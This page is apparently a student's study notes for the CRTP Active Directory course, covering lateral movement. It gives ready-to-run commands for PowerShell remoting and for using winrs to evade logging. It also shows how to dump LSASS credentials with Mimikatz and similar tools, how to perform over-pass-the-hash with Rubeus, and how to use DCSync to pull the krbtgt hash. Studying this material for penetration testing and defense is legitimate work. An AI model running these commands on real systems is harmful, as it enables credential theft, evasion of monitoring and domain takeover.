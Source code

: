 ```yaml
---
title: "3 - Lateral Movement"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser4.jpg
  overlay_image: /assets/images/main/header5.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "PowerShell Remoting, Mimikatz, Over Pass the hash and More"
description: "PowerShell Remoting, Mimikatz, Over Pass the hash and More"
categories:
  - notes
  - crtp
tags:
  - begginer
  - AD
  - Windows
  - lateralmovement 
toc : true
---
```

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="nullified" data-description="Support me on Buy me a coffee!" data-message="" data-color="#FF813F" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

# Lateral Movement

- Think of PowerShell Remoting (PSRemoting) as psexec on steroids but much more silent and super fast!
- PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management.
- Enabled by default on Server 2012 onwards with a firewall exception.
- Uses WinRM and listens by default on 5985 (HTTP) and 5986 (HTTPS).
- It is the recommended way to manage Windows Core servers.
- You may need to enable remoting (Enable-PSRemoting) on a Desktop Windows machine, Admin privs are required to do that.
- The remoting process runs as a high integrity process. That is, you get an elevated shell.

**One-to-One**

PSSession:
```powershell
– Interactive
– Runs in a new process (wsmprovhost)
– Is Stateful
```

Useful cmdlets:
```powershell
– New-PSSession
– Enter-PSSession
```

```powershell
# 1. PS> 
Enter-PSSession <machine>
Get-PSHostProcessInfo #this will show the ProccessID of wsmprovhost

# 2. PS> 
$machine = New-PSSession <machine>
```



**One-to-Many**

- Also known as Fan-out remoting.
- Non-interactive.
- Executes commands parallely.

Useful cmdlets
```powershell
– Invoke-Command
```

Run commands and scripts on:
```powershell
– multiple remote computers
– in disconnected sessions (v3)
– as background job and more.
```

> The best thing in PowerShell for passing the hashes, using credentials and executing commands on multiple remote computers.
> Use -Credential parameter to pass username/password.


**[easy to detect - noisy]**

**Use below to execute commands or scriptblocks**:
```powershell
Invoke-Command -Scriptblock {Get-Process} -ComputerName	(Get-Content <list_of_servers>)
```

**Use below to execute scripts from files**:
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -	ComputerName (Get-Content <list_of_servers>)
```

**Use below to execute locally loaded function on the remote machines**:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```

**In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way**:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```

**In below, a function call within the script is used**:
```powershell
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```

**Use below to execute Stateful commands using Invoke-Command**:
```powershell
$Sess = New-PSSession -Computername Server1
Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
```


**[more stealthy]**

> PowerShell remoting supports the system-wide transcripts and deep script block logging.

We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts):
```powershell
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
```

> We can also use winrm.vbs 
> COM objects of WSMan object (even more silently)

[WSMan-WinRM on GitHub](https://github.com/bohops/WSMan-WinRM)



# MIMIKATZ

[Mimikatz on GitHub](https://github.com/gentilkiwi/mimikatz)

Unofficial mimikatz guide:

[ADSecurity Blog - Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=2207)


**Local admin required**

> Invoke-Mimikatz, is a PowerShell port of Mimikatz. Using the code from ReflectivePEInjection, mimikatz is loaded reflectively into the memory.

All the functions of mimikatz could be used from this script.

> [everything from LSASS is heavily detected]**

**Dump credentials on a local machine using Mimikatz**:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

**Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)**:
```powershell
SafetyKatz.exe "sekurlsa::ekeys"
```

**Dump credentials Using SharpKatz (C# port of some of Mimikatzfunctionality)**:
```powershell
SharpKatz.exe --Command ekeys
```

**Dump credentials using Dumpert (Direct System Calls and API unhooking)**:
```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

**Using pypykatz (Mimikatz functionality in Python)**:
```powershell
pypykatz.exe live lsa
```

**Using comsvcs.dll**:
```powershell
tasklist /FI "IMAGENAME eq lsass.exe" 
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```

- From a Linux attacking machine using *impacket*
- From a Linux attacking machine using *Physmem2profit*

## References

[Fantastic Windows Logon Types and Where to Find Credentials in Them](https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them)

[Invoke-Mimikatz.ps1 in Nishang](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)

[SharpKatz on GitHub](https://github.com/b4rtik/SharpKatz)

[Dumpert on GitHub](https://github.com/outflanknl/Dumpert)

[BetterSafetyKatz on GitHub](https://github.com/Flangvik/BetterSafetyKatz)

[SafetyKatz on GitHub](https://github.com/GhostPack/SafetyKatz)

[pypykatz on GitHub](https://github.com/skelsec/pypykatz)

[lsassy on GitHub](https://github.com/Hackndo/lsassy)

[impacket on GitHub](https://github.com/SecureAuthCorp/impacket/)

[physmem2profit on GitHub](https://github.com/FSecureLABS/physmem2profit)


# What to do with credentials?

## Over-Pass-The-Hash

Over Pass the hash (OPTH) generate tokens from hashes or keys. 

> Needs elevation (Run as administrator)

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"' 
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
```

> The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).


- Over Pass the hash (OPTH) generate tokens from hashes or keys.

**Doesn't need elevation**:
```powershell
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

**Needs elevation**:
```powershell
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
pass-the-hash # for non domain machines
overpass-the-hash # for domain machines (it gerenates kerberos token)
```
 
# DCSync

> By default, Domain Admins privileges are required to run DCSync

To extract credentials from the DC without code execution on it, we can use DCSync.

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```
